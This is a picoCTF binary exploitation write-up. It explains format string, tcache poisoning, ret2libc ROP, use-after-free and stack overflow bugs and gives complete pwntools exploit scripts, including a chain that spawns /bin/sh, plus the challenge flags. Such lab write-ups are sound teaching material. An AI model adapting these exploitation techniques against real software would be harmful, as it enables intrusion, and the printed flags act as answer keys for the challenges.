


# Binary Exploitation
## Stonks  

We are given a C source file, so let's search for vulnerabilities. There is a clear _format string_ vulnerability at line 93, in the `buy_stonks` function:

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

Now we know we can use this to print what we need from the memory. Let's try locally, using a custom `api` file (the flag one) to easily recognize if we got the content, take a bunch of 'A's to try. If we then submit a sequence of `%x`s as input, we will leak the memory and see a sequence of 41, our flag file.

With no hesitation we can simply connect to the remote program and do the same, leaking at some point (after converting it into ASCII) `ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10\xff\xfb\x00}` that is clearly our flag. 

Just reverse it 4 by 4 characters and we obtain the flag: **picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}**

## Cache Me Outside  
> While being super relevant with my meme references, I wrote a program to see how much you understand heap allocations. nc mercury.picoctf.net 10097 [heapedit](https://mercury.picoctf.net/static/97a073d6009c8cbd05d03b91ac3a620b/heapedit) [Makefile](https://mercury.picoctf.net/static/97a073d6009c8cbd05d03b91ac3a620b/Makefile) [libc.so.6](https://mercury.picoctf.net/static/97a073d6009c8cbd05d03b91ac3a620b/libc.so.6)

First thing to do, open this with `Ghidra` and see the instructions:
```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined my_value;
  int my_address;
  int index;
  undefined8 *first_chunk;
  undefined8 *flag_chunk;
  FILE *flag_len;
  undefined8 *rand_chunk;
  void *new_buffer;
  undefined8 rand_1;
  undefined8 rand_2;
  undefined8 rand_3;
  undefined rand_4;
  char flag [72];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  flag_len = fopen("flag.txt","r");
  fgets(flag,0x40,flag_len);
  rand_1 = 0x2073692073696874;
  rand_2 = 0x6d6f646e61722061;
  rand_3 = 0x2e676e6972747320;
  rand_4 = 0;
  first_chunk = (undefined8 *)0x0;
  index = 0;
  while (index < 7) {
    flag_chunk = (undefined8 *)malloc(0x80);
    if (first_chunk == (undefined8 *)0x0) {
      first_chunk = flag_chunk;
    }
    *flag_chunk = 0x73746172676e6f43;
    flag_chunk[1] = 0x662072756f592021;
    flag_chunk[2] = 0x203a73692067616c;
    *(undefined *)(flag_chunk + 3) = 0;
    strcat((char *)flag_chunk,flag);
    index = index + 1;
  }
  rand_chunk = (undefined8 *)malloc(0x80);
  *rand_chunk = 0x5420217972726f53;
  rand_chunk[1] = 0x276e6f7720736968;
  rand_chunk[2] = 0x7920706c65682074;
  *(undefined4 *)(rand_chunk + 3) = 0x203a756f;
  *(undefined *)((long)rand_chunk + 0x1c) = 0;
  strcat((char *)rand_chunk,(char *)&rand_1);
  free(flag_chunk);
  free(rand_chunk);
  my_address = 0;
  my_value = 0;
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&%d_GLOBAL,&my_address);
  printf("Value: ");
  __isoc99_scanf(&%c_GLOBAL,&my_value);
  *(undefined *)((long)my_address + (long)first_chunk) = my_value;
  new_chunk = malloc(0x80);
  puts((char *)((long)new_chunk + 0x10));
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

What this program does is:
- read `flag.txt` and store it in a variable
- allocate a chunk of `0x80` 7 times (`flag_chunk`), containing "Congrats! Your flag is: <flag>", overwriting the pointer without freeing data
- store the `first_chunk` address in a variable
- after the loop allocate another chunk, `rand_chunk`, containing "Sorry, this will not help you: this is a random string"
- free `flag_chunk` and `rand_chunk` without zeroing them
- take `my_address` and `my_value` and use them `*(first_chunk + my_address) = my_value`, use address as offset from the first chunk and modify a byte
- allocate a `new_chunk` of the same size of the others and print it 

### Idea
We can identify a main vulnerability here: due to the fact that some chunks are freed (with size of 0x80) and a new one is allocated (with same size) the GCLIB's **tcache** mechanism will take part of this.  
[tcache](https://sourceware.org/glibc/wiki/MallocInternals#Thread_Local_Cache_.28tcache.29) (Thread Local Cache) is a powerful yet dangerous performance optimization method, that basically works like this (refer to the link for a better explanation).  
To speed up memory allocation, the allocator does not always search through all of the heap memory but it tries to reuse as many chunks as possible instead. That is, if we free a 0x80 size chunk and then we malloc a 0x80 size chunk, the former will be used to allocate the latter.

If we run the program with some random arguments, this is the result we get this, confirming all said before (the output is part of the previously freed `rand_chunk`):



The idea is that we can exploit the `tcache`, because of `new_chunk` allocation and print after `rand_chunk` free. We need to change the tcache value to point at the `flag_chunk` so that the print will actually print the flag.  
Luckily enough is the program itself to provided us a way to write a chosen value in a chosen address in memory.

### Pwn
Now what we can do to really understand the program flow is to run it with `gdb` and carefully look at registers and memory addresses. First I run `disassemble main` to see all assembly instructions and their address. I will not report here the output, but we can now mark down 3 important addresses where we can break and analyze the memory state: 0x4008c3, 0x4009a8, 0x4009b4.

**_0x4008c3_**: if break here, after the very first `malloc` executed, `RAX` will contain its return value. That is, the `first_chunk` (0x6034a0 in this case).

**_0x4009a8_**: is the instruction right after the first free, breakpoint here and look at `tcache` to get a confirmation
```
pwndbg> tcache
{
  counts = "\000\000\000\000\000\000\000\001", '\000' <repeats 55 times>, 
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x603800, 0x0 <repeats 56 times>}
}
```

As expected, this is the pointer at `flag_chunk`, the first freed chunk

**_0x4009b4_**: is the instruction right after the second free, again breakpoint and `tcache`
```
pwndbg> tcache
{
  counts = "\000\000\000\000\000\000\000\002", '\000' <repeats 55 times>, 
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x603890, 0x0 <repeats 56 times>}
}
```

As expected now there is the last freed chunk, so `rand_chunk`: only the last one is referred, in fact this points to the preceeding one, and so on:
```
pwndbg> x/4xg 0x603890
0x603890:	0x0000000000603800	0x276e6f7720736968
0x6038a0:	0x7920706c65682074	0x73696874203a756f
```

We need to find the last value (0x603890) in the heap, because we will need to modify it: the pointer at tcache (containing the pointer to the freed chunk) must be somewhere here.  
To execute the `find` command in gdb we need to specify the starting and ending addresses of the search space, i.e. the heap: `info proc mappings` returns us start = 0x602000, end = 0x623000

Now we can run:
```
pwndbg> find 0x602000, 0x623000, 0x603890
0x602088
warning: Unable to access 7029 bytes of target memory at 0x62148c, halting search.
1 pattern found.
```

So the heap address 0x602088 (call it `tcache_pointer`) contains the pointer to the last freed chunk (0x603890), the one we want to modify.  
To make the exploit work, we need to change the address of the `tcache_pointer` from pointing to the `rand_chunk` (0x603890) to pointing to the `flag_chunk` (0x603800). This is perfect because we can only modify a byte in memory, and 0x603890 can be easily modified to 0x603800 by replacing the last byte with a 0 byte.

We can now calculate the offset we will send to the program as `0x602088 - 0x6034a0 = -5144`, this is the relative offset that will be fixed for every execution, even if the two values changes due to memory space randomization. _Notice that in classical heap challenges we typically have an heap address leak and then we can calculate all needed offsets; here the concept is the same, with `first_chunk` behaving as the leaked address._

Now we just need to replace the last byte with a `\x00`, let's script that:
```python
from pwn import *

r = remote("mercury.picoctf.net", 10097)

offset = 0x602088 - 0x6034a0
new_value = b'\x00'

r.recvuntil(': ')
r.sendline(str(offset))     # send Address

r.recvuntil(': ')
r.sendline(new_value)         # send Value

r.interactive()
```

Flag: **picoCTF{97c85bbf2168f674263a1c5629b411a3}**
  
## Here's a LIBC  

After inspecting the source code of the main in `Ghidra`, we can see that the program converts some lowercase-uppercase letters of our input through a `do_stuff()` function:
```c
void do_stuff(void)

{
  char cVar1;
  undefined local_89;
  char result [112];
  undefined8 local_18;
  ulong i;
  
  local_18 = 0;
  __isoc99_scanf("%[^\n]",result);
  __isoc99_scanf(&DAT_0040093a,&local_89);
  i = 0;
  while (i < 100) {
    cVar1 = convert_case((ulong)(uint)(int)result[i],i,i);
    result[i] = cVar1;
    i = i + 1;
  }
  puts(result);
  return;
}
```

We can clarly see a **buffer overflow** vulnerability in `__isoc99_scanf("%[^\n]",result);` with no check on input length, on a 112 long buffer. Unfortunately by running `checksec` we can see that the stack is not executable, so we can't inject shellcode: the solution seems to be ROP.
```bash
[*] checksec ./vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

First we can run the program with `gdb` and `disassemble do_stuff` to get the address of this function and its instructions: 0x4006d8 is the first instruction's address.

I then played around a bit with the input, overflowing the buffer with some values. I then decided to determine in this way the needed padding to overwrite the RBP, 136 characters (I started from 120 and tried to see if the execution continued).  
At this point we can prepare the ROP chain in this (pretty classic) way:
- leak a libc function address at runtime (`puts`)
- compute the difference between the leaked address and the libc symbol of `puts`
- call the `do_stuff()` function again to start a new chain
- search for the `/bin/sh` string in the libc
- using the new base address, call the `system()` function passing `/bin/sh` and get the shell

So we can say we have 2 ROP chains, the first with `puts -> do_stuff` and the second with `puts -> system`. The `puts` in the second chain is needed for stack alignment, in fact look at the bytes of the second payload if we do not include it, we have 4 bytes less that mess everything up: 



The result is a quite standard libc leak + ROP chain (base structure like [here](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)), here you can see the final script:
```python
from pwn import *

padding = 136
welcome = "WeLcOmE To mY EcHo sErVeR!\n"

context.binary = elf = ELF('./vuln')
#r = elf.process()
r = remote("mercury.picoctf.net", 62289)
libc = ELF('./libc.so.6')

rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('do_stuff')

payload = b"A"*padding + bytes(rop)
log.info("Sending payload:\n{}".format(hexdump(payload)))

r.sendlineafter(welcome, payload)
r.recvline()	

leaked_puts = int.from_bytes(r.recvline(keepends = False), byteorder = "little")
log.info("RUNTIME puts address: {0}".format(hex(leaked_puts)))

libc_base = leaked_puts - libc.symbols["puts"]
libc.address = libc_base
log.info("COMPUTED LIBC base address: {0}".format(hex(libc_base)))

rop = ROP(elf)
rop.call('puts', [elf.got['puts']]) # align stack
rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh"))])

payload = b"A"*padding + bytes(rop)
log.info("Sending payload:\n{}".format(hexdump(payload)))
r.sendline(payload)

r.interactive()
```

Flag: **picoCTF{1_<3_sm4sh_st4cking_  8652b55904cb7c}** (yes, two spaces before the hex part)

## Unsubscriptions Are Free  

We have access to a 32-bit binary and also to the source code, so we can easily read all instructions (I only left the relevant ones):
```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

char choice;
cmd *user;

void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}

void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}

void processInput(){
  scanf(" %c", &choice);
  choice = toupper(choice);
  switch(choice){
	case 'S':
	if(user){
 		user->whatToDo = (void*)s;
	}else{
		puts("Not logged in!");
	}
	break;
	case 'P':
	user->whatToDo = (void*)p;
	break;
	case 'I':
 	user->whatToDo = (void*)i;
	break;
	case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
	break;
   case 'L':
	leaveMessage();
	break;
	case 'E':
	exit(0);
	default:
	puts("Invalid option!");
	exit(1);
	  break;
  }
}

int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```

What we can immediately see, also by running the binary, is that sometimes it will leak an address: if we search in the code we see that the address is the one of `hahaexploitgobrrr`: at first I thought they was trolling me, but I soon realized that this is the real function reading and printing the flag.

Now let's search for allocations and deallocations of heap space: in `main` the space for `user` variable is allocated, and interestingly enough we see that a check `if(user)` is commented out.. let's search for a `free`! In function `i` we can find `free(user)`, but if we try to simulate this while running the program nothing changes: we can still access the user.

Now run it on gdb and explore the memory:  
We set a breakpoint at `0x8048d6f`, the instruction following the `malloc` of user, and observe `EAX = 0x804c160` being the address of this heap space, the return value of the malloc function.

Now with `disassemble processInput` we can retrieve the (approximate) address of `i()`, `0x8048d2f`, by looking at the jumps performed in the assembly and the function calls performed in C. Set a breakpoint at this address and by continuing we arrive at the _"You're leaving already(Y/N)?"_ choice.  
If we now look at the content of our user variable at 0x804c160 we can see the username we inserted (I did it before with the "M" choice). If we enter Y and we free the variable, with `tcache` we can now see that it's now in the deleted chunks cache.

_Important_: sizeof(char*)

By accessing 0x804c160 we can still see our values, now we need to search for another malloc function and.. `leaveMessage` does this, with `(char*)malloc(8);`. Luckily, or maybe not, this is the same size of the chunk we freed before, so this will be reused for optimization purposes.  
I then tried to write random data onto this chunk through the following `read`, and by continuing the execution I triggered a SIGSEGV: **Invalid address 0x6c6f6964**. Perfect, it's what I wrote as message.

But why is happening this? Just for clarity purposes, after exiting `processInput`, `doProcess` will be called: `(*obj->whatToDo)();` calls the pointer at offset 0.

At this point we already know everything we need to exploit this, so we will:
- (S) subscribe to get the memory leak
- (I) unsubscribe to free the chunk
- (L) leave a message containing the leaked address
- get the flag

```python
from pwn import *

menu_end = "(e)xit\n"
choice = "You're leaving already(Y/N)?\n"
mex = "try anyways:\n"

r = remote("mercury.picoctf.net", 6312)

log.info("Sending (S) subscription")

r.sendlineafter(menu_end, b"S")
r.recvuntil("leak...")
flag_leaked_string = r.recv(9).decode("utf-8") 
flag_leaked = int(flag_leaked_string, 16)
log.success("LEAKED address: {}".format(hex(flag_leaked)))

log.info("Sending (I) unsubscription")

r.sendlineafter(menu_end, b"I")
r.sendlineafter(choice, b"Y")


payload = p32(flag_leaked) + p32(0)
log.info("(L) leaving message".format(payload))

r.sendlineafter(menu_end, b"L")
r.sendlineafter(mex, payload)

r.interactive()
```

Flag: **picoCTF{d0ubl3_j30p4rdy_ad77070e}**

## clutter-overflow  

This is quite an easy challenge, but I'd like to showcase it because it's the first time I actually use the `cyclic` function of pwntools in the way it is supposed to be used.

What we can initially see is this source code:
```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

Apart from the beautiful ASCII-art, we can see a dangerous use of `gets(clutter)`: we can overflow the `clutter` buffer in order to overwrite the `code` variable and then gain access to the flag, by writing `0xdeadbeef` in it.  Let's see the protections of the executable with `checksec`:
```
[*] '/home/acidburn/Desktop/picoCTF/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Ok so basically nothing, so we can first analyze and exploit in local and then try it on the remote sever. Let's run it with gdb and try to send a cyclic payload, obtained with the command (300 because we want to overflow a 0x100 = 256 size buffer):
```console
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

We get a Segmentation Fault as expected, but now we need to search for the `code` value (I was initially tricked to work on the `RIP` value as it often happens in binary challenges), that the program outputs us as: `code == 0x6361617263616171`: let's convert that in ASCII ("caarcaaq"). If we then try to search the subpattern we need to submit a 4 byte one, so let's take the first one as example:
```console
pwndbg> cyclic -l caar
1708
pwndbg> cyclic -l raac
268
```

The first result is clearly too big, so we need to cope with little-endian and invert the subpattern, obtaining the index at which it starts, so our offset. Alternatively we can also use the second (inverted) subpattern, getting 264 as result. Thus, 264 is the offset at which the `code` variable starts.

Now we can write a simple script to send `264` = `0x108` (or `0x10c - 0x4`) "A"s and then the required "deadbeef" bytes:
```python
from pwn import *

menu_end = "What do you see?\n"

r = remote("mars.picoctf.net", 31890)

offset = 0x10c - 0x4
payload = b"A"*offset + b"\xef\xbe\xad\xde" 

r.sendlineafter(menu_end, payload)

r.interactive()
```

Flag: **picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}**

## Easy as GDB  

By running `file` command we can see the program is stripped, let's open it with `Ghidra` and search for the `entry` function: it calls the `libc_start_main` with parameter `FUN_000109af`, we will rename this as `main` and go on. The main function just gets our input and then performs a check between this and what seems an encoded or encrypted flag, because we can access its characters but they just make no sense.

Take a look at `check_flag` function:
```c
undefined4 check_flag(char *param_1,uint param_2)

{
  char *__dest;
  char *__dest_00;
  uint local_18;
  
  __dest = (char *)calloc(param_2 + 1,1);
  strncpy(__dest,param_1,param_2);
  FUN_000107c2(__dest,param_2,0xffffffff);
  __dest_00 = (char *)calloc(param_2 + 1,1);
  strncpy(__dest_00,&DAT_00012008,param_2);
  FUN_000107c2(__dest_00,param_2,0xffffffff);
  puts("checking solution...");
  local_18 = 0;
  while( true ) {
    if (param_2 <= local_18) {
      return 1;
    }
    if (__dest[local_18] != __dest_00[local_18]) break;
    local_18 = local_18 + 1;
  }
  return 0xffffffff;
}
```

Ok this seems to somehow encode our input and then perform the comparison, returning 1 if all characters are equal: I have no intention of reversing the encoding function, so we can follow the challenge advice and use `gdb` to script that. Also, I never wrote a Python-gdb script, so it's better to learn this.

But first we need to know what to search, so we can run `gdb` first and use `info files` to get the `entry point` address (`0x56555580`), then I executed `x /400i 0x56555580` to print the disassembled instructions because no functions would be recognized. I then searched for functions call or values we already know (like calloc, strncpy or 0xffffffff) and got to `0x5655598e:   cmp   dl,al`, interesting..

If we put a breakpoint at this address and run the program 2 times, once submitting "a" and once "b", we can see that `EAX=0x2e` both times while `EDX=0x3f` first and `EDX=0x3c` then. So we are sure that in EAX we have the encoded flag, and in EDX our encoded input.  Also, if we put picoCTF{} as input we can see that the  `je   0x5655599b <0x5655599b>` instruction right after the `cmp` is taken for the first characters, while is not taken when "A"s start. 

At this point we can try to sketch a script, with gdb executing this Python code, setting the breakpoint and running the program for every possible character we can have in the flag, eventually passing all the cmp (so the breakpoints) and returning 1, giving us the flag. Note that we can't execute this as a normal script, but we need to use `gdb -x ./easygdb_solve.py -q` because we must be _in_ gdb and pass a script to it.
```python
# usage:  gdb -x ./easygdb_solve.py -q
import gdb
import string

gdb.execute('file ./brute')
gdb.Breakpoint('*0x5655598e') # set breakpoint address we found

alphabet = string.printable
flag = ""

for i in range(len(flag), 30):  # 30 is just an upper bound
    for c in alphabet:
        open('input.txt', 'w').write(flag + c)  # write on file the input
        gdb.execute('r < input.txt')            # and submit it

        for _ in range(i + 1):	# skip already checked characters' breakpoint (i+1 because i starts from 0)
            try:
                gdb.execute('continue')
            except gdb.error:
                pass
                
        b_info = gdb.execute('i b', to_string=True)
        if 'hit {} times'.format(i + 2) in b_info:	# i+2 so we got the new character
            flag += c
            print('flag:', flag)
            gdb.execute('continue')
            break
        print('trying:', flag+c)

print(flag)
gdb.execute('quit')
```

Flag: **picoCTF{I_5D3_A11DA7_6aa8dd3b}**